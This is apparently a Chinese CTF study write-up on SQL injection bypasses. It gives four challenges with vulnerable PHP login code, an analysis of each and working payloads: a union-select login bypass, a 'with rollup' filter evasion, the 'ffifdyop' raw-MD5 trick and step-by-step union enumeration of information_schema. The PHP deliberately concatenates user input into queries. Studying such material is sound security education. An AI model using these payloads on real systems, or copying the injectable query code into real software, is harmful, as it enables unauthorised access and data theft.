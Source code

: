 ### SQL注入绕过

#### 例题1
```php
<?php
if($_POST[user] && $_POST[pass]) {
	//省略了mysql连接过程
    $user = $_POST[user];
    $pass = md5($_POST[pass]);

    $sql = "select pw from php where user='$user'";
    #使用union时，查询出来的列名是第一个被查询的表对应的列名
    $query = mysql_query($sql);
    if (!$query) {
        printf("Error: %s\n", mysql_error($conn));
        exit();
    }
    $row = mysql_fetch_array($query, MYSQL_ASSOC);
    
    if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
        echo "<p>Logged in! Key:************** </p>";
    }
    else {
        echo("<p>Log in failure!</p>");
    }
}
?>
```
#### 分析
该文件接受user和pass两个参数，通过构造合适的sql语句进行SQL注入成功登录即可获得key。代码中没有过滤任何SQL语句，因此可以有多种方法进行payload的构造。

#### payload
```
user=' union select md5(1)#
pass=1 
```

#### 例题2
>题目地址:http://www.shiyanbar.com/ctf/1940
#### 代码
```php
<?php
error_reporting(0);
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
//执行的开始部分
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}

//连接语句省略
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
#### 分析
该PHP文件接收两个参数，uname和pwd。文件中包含了对一些SQL关键字和操作符的过滤，没有限制limit,with,rollup,offset等关键字。

根据代码中的条件，只有查询结果中只有1行，且输入密码必须和查询的密码对应才可以得到flag。

这里可以借助with rollup操作来实现SQL注入，该关键字可以将行中每一列的结果进行汇总，如果是数字，得到数字的和；如果是非数字字符串，得到0；

#### payload
```html
uname=1' or 1=1 group by pwd with rollup limit 1 offset 2#
pwd=
<!--pwd为空，uname的最终显示起始行是试出来的-->
<!--payload解释:得到所有用户名和密码，将密码汇总，选出null对应的行-->
```

#### 参考文章
with rollup
>https://www.cnblogs.com/phpper/p/9384614.html

limit宇offset
>https://blog.csdn.net/l1212xiao/article/details/80520330

#### 例题3
>http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php,后台登录

#### 代码

```php
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
if(mysqli_num_rows($result)>0){
    echo 'flag is :'.$flag;
}
else{
    echo '密码错误!';
}
```

#### 分析
该文件只接收一个password参数。如果想得到flag，必须保证密码的MD5值和用户输入的MD5值相同。值得注意的是，该处的MD5函数与常规的用法不太一致，其第二个参数为true，表示返回16字节的原始二进制格式的内容，而不是其对应的一个32位的数字字符串。

因此，如果产生的二进制内容在显示为字符串时，如果能出现'or'axx（a为一个非0的数字，x为任意字符）,则可以构造一个恒为真的SQL语句。

比较巧的是，该文件的文件名经过加密后正好可以产生一个比较合适的字符串。
```txt
'or'6�]��!r,��b
```
#### payload

```txt
password=ffifdyop
```

#### 例题4
>tips:非常适合新手的一道题，题目来自于攻防世界web进阶题newscenter

#### 说明
此题无代码，需要盲注。

测试中发现报错不会有回显，但是也没有过滤任何常用的SQL语句，不是难题。

#### 分析
这里准备采用联合查询的方式获得flag，首先构造了1个payload
```txt
' and 0 union select 1#
```
在firefox下直接返回一个空白页，猜测可能的原因是联合查询的列数不匹配导致查询结果出错。

一点点的增加查询的列数，发现列数为3时可以。
```txt
' and 0 union select 1,2,3#
```
![行数测试](./image/column_test_3.png)
接下来查询表名
```txt
' and 0 union select 1,2,table_name from information_schema.tables#
```
![查询表名](./image/column_name.png)
得到了表名称secret_table
接下来查询列名
```txt
' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table'#
```
得到了列名fl4g

查询fl4g中的内容即可得到flag
```txt
' and 0 union select 1,2,fl4g from secret_table#
```

#### 拓展
这里拓展一些关于select后面加数字的一些内容。

#### SQL注入常用函数

1.database()

该函数可以显示当前正在使用的数据库库名。

2.mid()

该函数可以从指定的字段中提取出字段的内容。

mid(column_name,start[,length])
```sql
select mid(name,1) from user;
/*start要求最小从1开始*/
/*从password这一列的每一个元素的第一个字符开始截取*/
/*注意得到的是整整一列的内容*/
```
eg:

select * from user;

| name | password |
| ------ | ------ |
| admin | admin |
| root | root |

select mid(name,1,2);

|name|
|---|
|ad|
|ro|

3.ord()

该函数用于获得某个字符串最开始的字符的ASCII值。

4.ascii()

目前未发现与ord的不同。
